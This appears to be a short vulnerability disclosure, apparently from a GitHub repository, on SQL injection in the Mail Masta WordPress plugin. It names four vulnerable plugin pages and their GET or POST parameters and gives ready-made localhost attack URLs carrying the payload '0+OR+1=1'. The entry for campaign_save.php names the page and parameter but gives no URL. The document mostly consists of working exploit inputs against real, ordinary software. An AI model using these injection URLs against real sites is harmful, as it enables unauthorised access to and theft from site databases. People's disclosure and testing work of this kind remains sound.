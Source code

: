 Wordpress-Plugin-Mail-Masta-SQL-Injection
=========================================
SQL injection

Page: /inc/lists/csvexport.php
GET Parameter: list_id
http://127.0.0.1/wordpress/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php


Page: /inc/lists/view-list.php (Requires authentication to Wordpress admin)
GET Parameter: filter_list
http://127.0.0.1/wordpress/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1


Page: /inc/campaign/count_of_send.php (Requires authentication to Wordpress admin)
POST Parameter: camp_id
http://127.0.0.1/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php


Page: /inc/campaign_save.php (Requires authentication to Wordpress admin)
POST Parameter: list_id
